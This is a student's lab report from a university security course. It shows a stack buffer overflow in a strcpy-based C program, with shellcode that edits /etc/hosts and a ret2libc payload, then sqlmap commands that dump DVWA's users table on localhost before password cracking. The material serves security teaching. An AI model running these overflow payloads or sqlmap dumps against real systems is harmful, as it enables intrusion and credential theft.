 # Lab #1,22110086, Tran Van Tuyen, 241INSE330380E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)

For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy

![image](https://github.com/user-attachments/assets/f8d69d8d-5ee1-43b7-a8fe-1e20a9e126f2)

Then i will compile C asm program and C program
![image](https://github.com/user-attachments/assets/96923428-54c0-430c-a2b3-1ab49faf51e1)

I will use an older bash and turn off randomly given stack value.

![image](https://github.com/user-attachments/assets/2225b827-1838-4506-aab8-6c3726acf7ec)

The pwd of the file_del-1 `/home/seed/seclabs/Security-labs/Software/buffer-overflow`

![image](https://github.com/user-attachments/assets/861a0ba4-3c32-4691-9960-4ac4952850db)

Create a global environment varibale name **my_path** using `/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del-1`

![image](https://github.com/user-attachments/assets/d32c143b-4c98-45f4-8d19-c4f5d0c9f00e)

The stack frame of main function

![image](https://github.com/user-attachments/assets/6ecff85e-ae0a-450c-b8fb-d2f03d3f1278)

Now , I will find the address of system and exit and that string of varibale

![image](https://github.com/user-attachments/assets/7bcb3c72-ec57-4c31-8cbd-f745af79ceb1)

- Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7

- Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7

- Address value of the string of environment: `0xffffdee3` will be inserted with format `\xe3\xde\xff\xff`

so command is

```
    r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\xe3\xde\xff\xff')")
```

![image](https://github.com/user-attachments/assets/18cf6af2-122b-4d8c-b007-11b991489f4f)

-before attack
![image](https://github.com/user-attachments/assets/75ec4ae6-5867-4757-80a9-faf67641d91d)

-after attack
![image](https://github.com/user-attachments/assets/74cdbbf9-f30e-4f29-b707-4dc623f267a9)

==>Complete lab

> **Conclusion**: This exercise demonstrated how a buffer overflow vulnerability in a C program could be exploited to execute arbitrary code (in this case, modifying /etc/hosts). We used environment variables to store shellcode and manipulated the stack to trigger its execution by overwriting the return pointer.

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
  No i use virtual machine , so dont need Start docker

  - Access DVWA:http://localhost to access the DVWA interface. Login with the default credentials:

Username: admin
Password: password

![image](https://github.com/user-attachments/assets/86ecb794-75f6-4bcc-a1ef-cf35589ac95b)

> Then, change the Security Level to Low under the "DVWA Security" settings.

![image](https://github.com/user-attachments/assets/df8238fc-d761-484c-913d-335d7a65b397)

- Install sqlmap.

i have splMap so i only need update with command
`sudo apt-get update`

![image](https://github.com/user-attachments/assets/b0f38b60-8074-472f-b1b8-a37d5b21b656)

cd sqlmap

![image](https://github.com/user-attachments/assets/2aa8b4bb-fee8-438d-8120-55266f758d67)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Cookie of the website
![image](https://github.com/user-attachments/assets/d33ceb26-2d5b-49e5-a582-933770e9cd61)

- run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=p7oluqfdb8o0tb5trnl2lmf9c1; security=low" --dbs` to get information about all available databases

![image](https://github.com/user-attachments/assets/175a9052-5415-49ac-93b7-f4607e955d4d)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

- run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=p7oluqfdb8o0tb5trnl2lmf9c1; security=low" -D dvwa --tables` to get tables

![image](https://github.com/user-attachments/assets/37c568dd-abc0-4e52-9adb-142a2bafd0dc)

-run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=p7oluqfdb8o0tb5trnl2lmf9c1; security=low" -D dvwa -T users --dump` to get users information

![image](https://github.com/user-attachments/assets/482061e7-e270-491e-8513-61fb89a0f3a5)

> answer after run

![image](https://github.com/user-attachments/assets/5a482ce2-588b-476f-ac88-89b5a96477a1)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

![image](https://github.com/user-attachments/assets/96e51b7d-84b9-4538-8987-bb2ac4afeacb)
